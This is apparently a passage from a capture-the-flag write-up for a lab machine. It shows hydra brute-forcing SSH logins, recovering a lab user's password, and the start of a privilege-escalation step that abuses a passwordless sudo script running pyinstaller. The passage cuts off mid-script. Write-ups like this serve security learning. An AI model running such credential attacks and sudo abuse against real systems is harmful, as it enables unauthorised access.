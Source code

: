 
```bash
./username-anarchy Thomas Keller > names.txt

❯ hydra -L names.txt -p 'denjanjade122566' qreader.htb ssh -f
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-27 08:30:16
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 15 tasks per 1 server, overall 15 tasks, 15 login tries (l:15/p:1), ~1 try per task
[DATA] attacking ssh://qreader.htb:22/
[22][ssh] host: qreader.htb   login: tkeller   password: denjanjade122566
[STATUS] attack finished for qreader.htb (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-27 08:30:22
```

**ssh creds: `tkeller:denjanjade122566`**

# Privesc

## pyinstaller file read

User "tkeller" can run a bash script `/usr/local/sbin/build-installer.sh` as any user without any password.
```bash
tkeller@socket:~$ sudo -l
Matching Defaults entries for tkeller on socket:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tkeller may run the following commands on socket:
    (ALL : ALL) NOPASSWD: /usr/local/sbin/build-installer.sh
```

```bash
tkeller@socket:~$ cat /usr/local/sbin/build-installer.sh
#!/bin/bash
if [ $# -ne 2 ] && [[ $1 != 'cleanup' ]]; then
  /usr/bin/echo "No enough arguments supplied"
  exit 1;
fi

action=$1
name=$2
ext=$(/usr/bin/echo $2 |/usr/bin/awk -F'.' '{ print $(NF) }')

if [[ -L $name ]];then
  /usr/bin/echo 'Symlinks are not allowed'
  exit 1;
fi

if [[ $action == 'build' ]]; then
  if [[ $ext == 'spec' ]] ; then
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /home/svc/.local/bin/pyinstaller $name
    /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'make' ]]; then
```